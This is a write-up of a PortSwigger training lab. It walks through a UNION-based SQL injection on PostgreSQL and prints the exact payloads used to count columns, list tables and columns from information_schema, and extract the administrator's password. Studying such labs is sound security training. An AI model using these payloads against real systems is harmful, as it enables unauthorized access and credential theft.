




# Write-up: SQL injection attack, listing the database contents on non-Oracle databases  
  
Lab-link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle  
Difficulty: Practitioner  
Status: Solved  

## Lab description  
  

## Objectives  
Retrieve contents on non-Oracle databases and log in as `administrator` using UNION-based SQL injection

## Background  
### UNION-based SQL injection  
`UNION` combines the results of two `SELECT` queries into a single result set  
The queries before and after `UNION` must have the same number of columns and compatible data types

### Finding the number of columns  
A common technique is using  
```text
ORDER BY 1
ORDER BY 2
ORDER BY 3
...
ORDER BY n
```  
to determine the number of columns that are being returned by the query  

### [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
I tested database-specific version queries from the SQL injection cheat sheet and identified the DBMS as **PostgreSQL**  

### [PostgreSQL information_schema.tables](https://www.postgresql.org/docs/current/infoschema-columns.html)
PostgreSQL provides metadata through the `information_schema`. I used `information_schema.tables` to enumerate table names and `information_schema.columns` to enumerate column names.

## Steps
### 1. Establish a baseline  
Firstly, I chose the Pets category  
In Burp Suite, I intercepted this request and sent it to Repeater  
  

### 2. Determine the number of columns
By injecting the following payloads one by one: 
```text
' ORDER BY 1--
...
```
I got that there were 2 columns  

### 3. Confirm UNION works
Since there were 2 columns, I injected:   
```text
' UNION SELECT NULL,NULL--
```

### 4. Get admin's password  
I injected:   
```text
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```
to get the list of the the table.  
Among the returned table names, I identified the user table: **users_qkxziz**  

Then, I injected:  
```text
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_qkxziz'--
```
I got 2 columns: **username_ncyvwl** and **password_hbgsyg**  

Now we injected:    
```text
'+UNION+SELECT+username_ncyvwl,password_hbgsyg+FROM+users_qkxziz--
```
And admin's password was retrieved  
  
And the lab was solved  

